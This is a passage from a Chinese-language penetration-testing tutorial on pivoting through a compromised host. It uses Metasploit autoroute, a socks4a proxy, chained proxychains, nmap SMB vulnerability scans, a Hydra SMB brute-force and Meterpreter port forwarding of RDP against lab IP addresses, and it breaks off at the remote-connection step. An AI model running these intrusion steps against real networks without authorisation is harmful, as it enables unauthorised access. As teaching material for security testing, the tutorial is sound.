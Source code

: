 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0TCQhgvJFGu073dAuOsia5WfHGZiafACHtdeuTXicdcW6GX5jlhmx3RxTA/640?wx_fmt=png)

```
proxychains nmap -sT -sV -Pn -n -p 445 --script=smb-vuln-ms\* 192.168.75.131
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS06XBNOUmfeP8UKb6noRSibbDgZt27rQ4tfmLJDCccfh5Ej4ml9G5diaeg/640?wx_fmt=png)

**纵向渗透**  

如果拿下 75 网段 shell 且发现目标有也存在双网卡，假如存在 76 网段，此时可以继续添加静态路由，进一步纵向渗透。此时：

```
#配置路由
run autoroute -s 192.168.76.0/24
#验证能否连接
run post/windows/gather/arp\_scanner RHOSTS=192.168.76.0/2
```

```
#设置代理
use auxiliary/server/socks4a 
set srvhost 127.0.0.1
set srvport 1081  #注意避免端口冲突
run
```

```
\# 配置代理，要在1080端口下面再配置一个socket代理子啊1081端口上
vi /etc/proxychains.conf
socks4  127.0.0.1 1080
socks4  127.0.0.1 1081
```

```
#nmap扫描，这里建立了两层链路。从127.0.0.1:1080>127.0.0.1:1081>192.168.76.\*
proxychains nmap -sT -sV -Pn -n -p 1-3389 192.168.76.1/24
```

建立 socks 会话后，利用 proxychains 工具驱动其他软件可以对网段扫描、爆破、嗅探、漏洞探测及利用。进行横向渗透。也可以直接用 msf 里面的模块直接渗透（msf 不需要 proxychains 驱动）

**Hydra 爆破  
**

```
proxychains hydra -l admin -P pass.txt -f 192.168.75.131 smb
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0WSZrlX1xdvPckBJHsnHKlJfjAuhVib2m1qGy4TfpeBCVLp5qKe8dnRw/640?wx_fmt=png)  

爆破成功后，将远程目标机的端口转发到本地攻击  
①. 端口转发

```
portfwd add -L 192.168.1.5 -l 33890 -r 192.168.75.131 -p 3389
```

②. 远程连接
